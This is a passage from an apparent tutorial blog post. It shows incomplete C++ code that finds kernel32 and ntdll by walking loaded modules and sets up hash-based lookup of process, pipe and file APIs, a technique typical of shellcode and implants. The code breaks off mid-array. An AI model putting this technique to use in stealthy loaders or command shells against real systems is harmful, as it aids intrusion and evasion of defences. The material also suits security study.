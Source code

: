 

{%endhighlight%}



Putting it all together

{%highlight cpp%}
int start() {
    #define ZeroMemory(Destination, Length) if(pRtlZeroMemory) pRtlZeroMemory((Destination), (Length)); 
    #define MAX_CMD_PATH 512
    MODULE_INFO Modules[256];
    FARPROC Kernel32Ptrs[10] = { NULL, NULL, NULL, NULL, NULL, NULL, NULL,NULL, NULL, NULL };
    FARPROC NtdllPtrs[1] = { NULL };
    //Get the loaded Modules from the current Process
    int moduleCount = GetLoadedModules(Modules, 256);

    if (moduleCount < 0) { return 1; }

    HMODULE hK32DLL = NULL;
    HMODULE hNtdll = NULL;

    WCHAR  s_kernel_32_dll[] = L"Kernel32.dll";
    WCHAR  s_ntdll_dll[] = L"Ntdll.dll";
    for (int i = 0; i < moduleCount; i++) {
        size_t baseNameLength = get_len(Modules[i].BaseName);

        if (CompareSubstring(Modules[i].BaseName, baseNameLength, s_kernel_32_dll) == 0) {
            //Match -> xyz\pqr\[kernel32.dll] in mem == requried Dll
            hK32DLL = (HMODULE)Modules[i].DllBase;
        }

        if (CompareSubstring(Modules[i].BaseName, baseNameLength, s_ntdll_dll) == 0) {
            hNtdll = (HMODULE)Modules[i].DllBase;
        }
        if (hK32DLL && hNtdll) {
            break;
        }

    }

    //Find Functions within Kernel32, 
    //Traverse three arrays, 
    // Address of Names, Adress of Ordinals, Adrees of NameOridnals

    CHAR sCreateProcessA[] = "CreateProcessA";
    CHAR sWriteFile[] = "WriteFile";
    CHAR sCreatePipe[] = "CreatePipe";
    CHAR sGetStdHandle[] = "GetStdHandle";
    CHAR sCloseHandle[] = "CloseHandle";
    CHAR sWaitForSingleObject[] = "WaitForSingleObject";
    CHAR sExitProcess[] = "ExitProcess";
    CHAR sSetHandleInformation[] = "SetHandleInformation";
    CHAR sGetEnvironmentVariableA[] = "GetEnvironmentVariableA";
    CHAR sGetLastError[] = "GetLastError";
    CHAR sRtlZeroMemory[] = "RtlZeroMemory";

    FuncCreateProcessA pCreateProcessA = NULL;
    FuncWriteFile pWriteFile = NULL;
    FuncCreatePipe pCreatePipe = NULL;
    FuncGetStdHandle pGetStdHandle = NULL;
    FuncCloseHandle pCloseHandle = NULL;
    FuncWaitForSingleObject pWaitForSingleObject = NULL;
    FuncExitProcess pExitProcess = NULL;
    FuncSetHandleInformation pSetHandleInformation = NULL;
    FuncGetEnvironmentVariableA pGetEnvironmentVariableA = NULL;
    FuncGetLastError pGetLastError = NULL;
    FuncRtlZeroMemory pRtlZeroMemory = NULL;

    CONST DWORD FuncHashesK32[] = {
